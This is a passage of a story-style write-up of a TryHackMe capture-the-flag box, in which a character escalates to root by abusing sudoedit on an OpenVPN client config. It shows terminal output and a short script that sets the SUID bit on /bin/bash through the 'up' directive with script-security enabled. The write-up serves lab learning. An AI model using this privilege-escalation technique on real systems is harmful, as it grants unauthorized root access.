 ```
pood@pylon:/home/lone$ cd ~
pood@pylon:~$ ls -al
total 36
drwxr-x--- 5 pood pood 4096 Jan 30 06:45 .
drwxr-xr-x 5 root root 4096 Jan 30 02:31 ..
lrwxrwxrwx 1 pood pood    9 Jan 30 03:27 .bash_history -> /dev/null
-rw-r--r-- 1 pood pood  220 Jan 30 01:44 .bash_logout
-rw-r--r-- 1 pood pood 3771 Jan 30 01:44 .bashrc
drwx------ 2 pood pood 4096 Jan 30 06:42 .cache
drwx------ 4 pood pood 4096 Jan 30 03:22 .gnupg
drwxr-xr-x 3 pood pood 4096 Jan 30 02:31 .local
-rw-r--r-- 1 pood pood  807 Jan 30 01:44 .profile
-rw-rw-r-- 1 pood pood   29 Jan 30 03:25 user2.txt
pood@pylon:~$ cat user2.txt 
THM{REDACTED}
pood@pylon:~$ sudo -l
[sudo] password for pood: 
Matching Defaults entries for pood on pylon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pood may run the following commands on pylon:
    (root) sudoedit /opt/openvpn/client.ovpn
pood@pylon:~$ 

```

“So Pood can edit a file that Lone can run as root. That is a bad combination. That is a really bad combination.” - She mumbled upon staring at the words on the screen. These guys should not have shared their passwords with one another like that, even if they had obscured them. At least it was her finding this and not a malicious hacker.

She had never actually worked with these files before so it took her a bit of googling to see what she could do with sudoedit on the client.ovpn file. Seems like she could actually get some direct commands running with the instruction “up” typed directly into client.ovpn. A few moments later and she was typing out her simple exploit:

```
#!/bin/sh
chmod +s /bin/bash
```

![image](https://user-images.githubusercontent.com/73745039/113448862-881f7b80-93f4-11eb-8cc6-53e759bce7a7.png)

She performed the edit from Pood’s account and then slipped back into Lone’s. She ran the exploit and - oops. Looks like she was missing something. A warning was issued to the terminal telling her that she needed to add “--script-security 2” or higher to actually run a script. Well, that was easy enough to add right before her up command.

The moment of truth. Mia ran the sudo command and, as she expected, a SUID bash shell popped out. From there it was easy enough to get to root. This was serious. An attacker in her place would have been able to do some serious damage.
